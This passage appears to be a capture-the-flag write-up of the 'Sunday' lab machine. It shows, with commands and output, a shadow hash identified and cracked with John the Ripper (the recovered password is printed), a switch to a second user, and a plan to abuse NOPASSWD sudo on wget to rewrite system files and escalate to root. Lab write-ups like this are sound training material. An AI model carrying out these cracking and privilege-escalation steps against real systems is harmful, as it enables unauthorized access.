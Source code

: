 I eventually find this. We have the shadow backup for sammy and sunny.

So I make a copy of it, and create a hash file for John the ripper.

```
kali@kali:~/htb/Sunday$ hashid known_hash
--File 'known_hash'--
Analyzing '$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3'
[+] SHA-256 Crypt
--End of file 'known_hash'--kali@kali:~/htb/Sunday$
```

We identify that the hash is SHA-256 crypt.

```
kali@kali:~/htb/Sunday$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:00:21 DONE (2021-01-30 20:23) 0.04618g/s 9459p/s 9459c/s 9459C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~/htb/Sunday$ john --show hash
?:cooldude!

1 password hash cracked, 0 left
kali@kali:~/htb/Sunday$

```
So let’s login

```
sunny@sunday:/backup$ su sammy
Password:
sunny@sunday:/backup$ whoami
Sammy
sunny@sunday:/backup$ id
uid=101(sammy) gid=10(staff) groups=10(staff)
sunny@sunday:/backup$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sunny@sunday:/backup$
```

This is very good for us. Since wget has some options that allow us to set an output file. This means that we can change any file we wish in the system.

```
sunny@sunday:/export/home/sammy$ which vim
/usr/bin/vim
```

So I see that the system has got vim installed, so I want to try to get a shell out of that, by giving the user sammy permissions to run it as sudo NOPASSWD.
